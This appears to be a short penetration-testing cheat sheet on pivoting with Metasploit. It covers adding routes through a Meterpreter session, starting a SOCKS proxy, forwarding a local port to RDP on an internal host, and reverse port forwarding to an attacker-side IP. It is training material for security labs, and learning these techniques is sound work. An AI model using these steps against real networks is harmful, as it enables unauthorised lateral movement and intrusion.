 ```shell
msf6 > use post/multi/manage/autoroute
```

(Or from Meterpreter session)

```shell
meterpreter > run autoroute -s 172.16.5.0/23
```

Listing Active Routes

```shell
meterpreter > run autoroute -p
```

Configuring MSF's SOCKS Proxy

```shell
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

Connect with proxychains

### Local relay

Creating Local TCP Relay

```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

-l 3300: local port
-p 3389: remote port
-r: remote host

Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

### Reverse Port Forwarding

```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

-R: Reverse Port Forwarding
-l 8081: local port
-p 1234: pivot host port
-L: local IP
